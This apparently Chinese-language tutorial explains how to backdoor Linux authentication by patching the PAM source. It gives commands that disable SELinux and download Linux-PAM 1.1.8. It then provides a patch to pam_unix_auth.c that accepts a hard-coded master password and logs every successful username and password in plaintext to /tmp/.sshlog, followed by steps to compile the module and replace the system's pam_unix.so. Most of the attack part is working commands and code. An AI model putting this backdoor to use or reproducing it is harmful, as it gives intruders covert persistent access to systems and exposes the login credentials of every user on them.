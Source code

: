 `PAM`是一种认证模块，`PAM`可以作为Linux登录验证和各类基础服务的认证，简单来说就是一种用于Linux系统上的用户身份验证的机制。进行认证时首先确定是什么服务，然后加载相应的PAM的配置文件(位于`/etc/pam.d`)，最后调用认证文件(于`/lib/security`)进行安全认证.简易利用的`PAM`后门也是通过修改`PAM源码`中认证的逻辑来达到权限维持。

整体实现的流程：

- 获取目标系统所使用的PAM版本，下载对应版本的pam版本
- 解压缩，修改pam_unix_auth.c文件，添加万能密码
- 编译安装PAM
- 编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换，即使用万能密码登陆，将用户名密码记录到文件中。

#### 利用

1、关闭linux的安全模式：

```bash
selinux setenforce 0
```

2、查看版本：

```bash
rpm -qa | grep pam
```

![截图](298511793480132b40e6849ba71d62af.png)

3、下载对应的版本：

```bash
wget http://www.linux-pam.org/library/Linux-PAM-1.1.8.tar.gz
tar -zxvf Linux-PAM-1.1.8
yum install gcc flex flex-devel -y
```

4、修改配置

留PAM后门和保存SSH登录的账号密码，修改` Linux-PAM-1.1.8/modules/pam_unix/pam_unix_auth.c`（大概在180行左右）：

```c_cpp
	/* verify the password of this user */
	retval = _unix_verify_password(pamh, name, p, ctrl);
  if(strcmp("yuan-hacker",p)==0){return PAM_SUCCESS;}    //后门密码
    if(retval == PAM_SUCCESS){    
           FILE * fp;    
           fp = fopen("/tmp/.sshlog", "a");//SSH登录用户密码保存位置
           fprintf(fp, "%s : %s\n", name, p);    
           fclose(fp);} 
	name = p = NULL;
```
{: file='pam_unix_auth.c'}
5、编译与安装：（进入到`Linux-PAM-1.1.8`目录之下）

```bash
./configure && make
```

6、备份与复制：

备份原有pam_unix.so,防止出现错误登录不上
复制新PAM模块到/lib64/security/目录下 
